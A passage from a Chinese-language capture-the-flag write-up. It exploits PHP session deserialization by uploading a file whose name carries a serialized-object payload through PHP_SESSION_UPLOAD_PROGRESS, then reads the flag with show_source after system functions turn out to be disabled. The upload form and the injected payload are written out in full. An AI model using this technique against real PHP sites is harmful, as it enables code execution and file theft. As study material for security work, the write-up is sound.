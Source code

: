 ```
array(1) {
  ["a:1:{s:1:"a";s:20:""]=>
  object(mdzz)#1 (0) {
  }
}
```
但是这里还有个问题需要解决的就是怎么去操作session。在php中，如果上传文件，可以通过session获取上传进度，正如 http://php.net/manual/zh/session.upload-progress.php 所说，如果post一个名为PHP_SESSION_UPLOAD_PROGRESS的变量，就可以将filename的值赋到session中。先做一个测试，写一个上传页面

```
<form action="http://121.42.149.60/68b329da9893e34099c7d8ad5cb9c940/index.php?" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```
上传一个名为```|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:12:\"echo \"hihi\";\"}```的文件，结果如图
![img](/img/post/ali-7.png)
可以看到经过反序列化成功地执行了我们的语句。就在我正准备找flag文件的时候，发现system函数被禁用了，同时禁用了一大批能够执行系统命令的函数。没办法，只能先用dirname获取绝对路径，再用scandir来列目录，如图
![img](/img/post/ali-8.png)
flag文件就在当前目录下，先用file_get_contents发现读不了，试试show_source成功读到文件，后来发现file_get_contents加上绝对路径就可以读，不知道是什么原理。
![img](/img/post/ali-9.png)
